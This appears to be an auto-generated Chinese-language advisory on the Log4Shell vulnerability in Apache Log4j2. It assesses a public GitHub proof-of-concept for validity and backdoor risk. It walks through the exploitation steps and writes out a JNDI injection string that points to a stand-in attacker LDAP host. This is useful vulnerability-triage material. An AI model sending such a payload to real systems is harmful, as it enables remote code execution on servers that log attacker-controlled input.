 ## CVE-2021-44228-Apache Log4j2-远程代码执行

**漏洞编号:** CVE-2021-44228

**漏洞类型:** 远程代码执行

**影响应用:** Apache Log4j2

**危害等级:** 高危，可能导致服务器完全控制

**影响版本:** 2.0-beta9 to 2.15.0 (不包含 security releases 2.12.2, 2.12.3, 和 2.3.1)

**利用条件:** 目标应用使用了存在漏洞的Log4j2版本，并且启用了message lookup substitution功能，攻击者能够控制日志消息或日志消息参数。

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2021-44228，又名Log4Shell，是一个存在于Apache Log4j 2中的高危远程代码执行漏洞。该漏洞源于Log4j2的JNDI功能，当message lookup substitution功能启用时，攻击者可以通过控制日志消息或日志消息参数，利用JNDI注入，从恶意的LDAP服务器加载并执行任意代码。

**POC有效性：**

根据提供的docker-compose.yaml文件和Dockerfile文件，该POC的目的是创建一个易受攻击的Log4j2 Web应用程序和一个攻击服务器。attack-server 搭建了一个恶意的JNDI服务，用于向目标应用返回恶意payload，实现远程代码执行。

vulnerable-application 使用了tomcat 镜像，部署了 log4shell.war 包，模拟存在漏洞的web应用。

所以POC代码是有效的。

**投毒风险：**

考虑到以下几点，投毒风险评估为10%：

*   **来源可疑：** 漏洞利用代码来自GitHub上公开的JNDI-Exploit-Kit 和 log4j-shell-poc仓库，并说明了原始repository。
*   **简单的命令执行:** JNDI-Exploit-Kit 的Dockerfile中，通过 `-C` 参数执行 curl 命令，如果攻击服务器被篡改或者受到中间人攻击，可能导致执行的命令被替换为恶意代码。
*   **网络依赖：** 该POC依赖于网络连接，如果攻击者可以控制网络流量，可能会劫持请求并注入恶意代码。

虽然存在风险，但是代码的目的相对明确,只是执行`curl` 命令，且给出了原始仓库地址，因此不认为主要目的是投毒，但存在被利用的可能性。

**利用方式：**

1.  攻击者向目标应用程序发送包含恶意JNDI lookup字符串的请求，例如：`${jndi:ldap://attacker.com/evil}`。
2.  目标应用程序使用Log4j2记录该请求，触发JNDI lookup。
3.  Log4j2通过JNDI向`attacker.com`的LDAP服务器发起请求。
4.  攻击者的LDAP服务器返回一个包含恶意Java类的JNDI引用。
5.  Log4j2加载并执行该恶意Java类，从而实现远程代码执行。

总结：该漏洞利用简单，危害巨大。POC的有效性高，但存在一定的投毒风险。

**项目地址:** [safeer-accuknox/log4j-shell-poc](https://github.com/safeer-accuknox/log4j-shell-poc)

**漏洞详情:** [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)